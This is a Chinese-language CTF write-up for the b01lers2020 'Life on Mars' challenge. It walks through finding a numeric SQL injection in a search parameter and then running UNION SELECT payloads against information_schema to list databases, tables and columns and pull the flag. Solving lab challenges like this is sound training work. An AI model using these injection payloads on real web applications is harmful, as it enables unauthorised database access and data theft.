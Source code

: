 # \[b01lers2020]Life on Mars

## \[b01lers2020]Life on Mars

## 考点

* union联合注入
* 表面字符串实则数字注入

## wp

F12查看请求

```
http://09ed22c1-cc7a-4cb0-a22b-5b20d4f7106a.node4.buuoj.cn:81/query?search=utopia_basin&{}&_=1646642480869
http://09ed22c1-cc7a-4cb0-a22b-5b20d4f7106a.node4.buuoj.cn:81/query?search=amazonis_planitia&{}&_=1646642480867
http://09ed22c1-cc7a-4cb0-a22b-5b20d4f7106a.node4.buuoj.cn:81/query?search=tharsis_rise&{}&_=1646642480870
```

大概可以看出来GET传入的`_`是时间戳加3位数字，中间传一个`{}`没看出来啥用，前面一个`query`大概率注入

```
http://09ed22c1-cc7a-4cb0-a22b-5b20d4f7106a.node4.buuoj.cn:81/query?search=aaaa
```

传入`aaaa`直接返回1，传`utopia_basin%23`返回正常，确定存在注入。

传`utopia_basin'%23`返回1，传`utopia_basin"%23`返回1。

直接试试order by，传`chryse_planitia order by 5%23`返回2，然后一个一个试，发现传入传`chryse_planitia order by 2%23`返回正常

传入`a union select 1,2%23`，返回1

传入`chryse_planitia union select 1,2%23`，在最后一行看到结果1，2

剩下的就是纯手工注入了

```
select version()   # 5.7.29
select database()  # aliens
select group_concat(schema_name) from information_schema.schemata
# information_schema,alien_code,aliens

select group_concat(table_name) from information_schema.tables where table_schema='aliens'
# amazonis_planitia,arabia_terra,chryse_planitia,hellas_basin,hesperia_planum,noachis_terra,olympus_mons,tharsis_rise,utopia_basin
select group_concat(table_name) from information_schema.tables where table_schema='alien_code'
# code
select group_concat(column_name) from information_schema.columns where table_name='code'
# id,code
select group_concat(code) from alien_code.code
# flag{dd3169e5-e69e-41fc-91e6-a52dc4f8545b}
```

## 小结

* 类似这种`'#` 闭合返回正常的大概率是字符型注入，类似这种`#` 闭合返回正常的大概率是数字型注入
* 如果注入没反应，就可以考虑直接`order by 10`
* 注入时要判断不同结果对应的页面
